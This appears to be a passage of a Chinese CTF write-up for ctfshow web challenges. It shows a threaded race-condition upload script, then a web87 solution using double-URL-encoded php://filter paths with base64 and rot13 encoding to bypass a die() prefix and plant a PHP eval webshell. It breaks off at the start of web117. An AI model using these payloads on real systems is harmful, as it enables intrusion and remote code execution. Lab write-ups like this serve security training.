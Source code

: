 ```php
cookies={
	'PHPSESSID': sess
}
def write():
	while True:
		r = session.post(url1,data=data1,files=file,cookies=cookies)
def read():
	while True:
		r = session.post(url2,data=data2)
		if 'ctfshow{' in r.text:
			print(r.text)
threads = [threading.Thread(target=write),
       threading.Thread(target=read)]
for t in threads:
	t.start()
```
###  web87
代码
```php
if(isset($_GET['file'])){
    $file = $_GET['file'];
    $content = $_POST['content'];
    $file = str_replace("php", "???", $file);
    $file = str_replace("data", "???", $file);
    $file = str_replace(":", "???", $file);
    $file = str_replace(".", "???", $file);
    file_put_contents(urldecode($file), "<?php die('大佬别秀了');?>".$content);
}else{
    highlight_file(__FILE__);
}
```
[死亡绕过die](https://blog.csdn.net/unexpectedthing/article/details/120276302)
file参数过滤了太多东西，文件名可以通过两次url全编码绕过。
因为前面有die，所以我们后面直接写php内容会起不到作用，利用编码
1.base64编码
```php
GET
file=%2570%2568%2570%253a%252f%252f%2566%2569%256c%2574%2565%2572%252f%2577%2572%2569%2574%2565%253d%2563%256f%256e%2576%2565%2572%2574%252e%2562%2561%2573%2565%2536%2534%252d%2564%2565%2563%256f%2564%2565%252f%2572%2565%2573%256f%2575%2572%2563%2565%253d%2561%252e%2570%2568%2570
// file=php://filter/write=convert.base64-decode/resource=a.php
POST
content=11PD9waHAgZXZhbCgkX1BPU1RbMV0pOw==
其中PD9waHAgZXZhbCgkX1BPU1RbMV0pOw==是"<?php eval($_POST[1]);"的base64编码。前面的11是为了填充"<?php die('大佬别秀了');?>"
base64 4位4位解码，其中"<?php die('大佬别秀了');?>"解码的内容其实只有phpdie，所以需要再填充两位。
//content=<?php eval($_POST[1]);
```
2.rot13编码
```
GET
file=%2570%2568%2570%253a%252f%252f%2566%2569%256c%2574%2565%2572%252f%2577%2572%2569%2574%2565%253d%2573%2574%2572%2569%256e%2567%252e%2572%256f%2574%2531%2533%252f%2572%2565%2573%256f%2575%2572%2563%2565%253d%2562%252e%2570%2568%2570
//file=php://filter/read=string.rot13/resource=b.php
POST
content=<?cuc riny($_CBFG[1]);
//content=<?php eval($_POST[1]);
```
###  web117
代码
```php
function filter($x){
```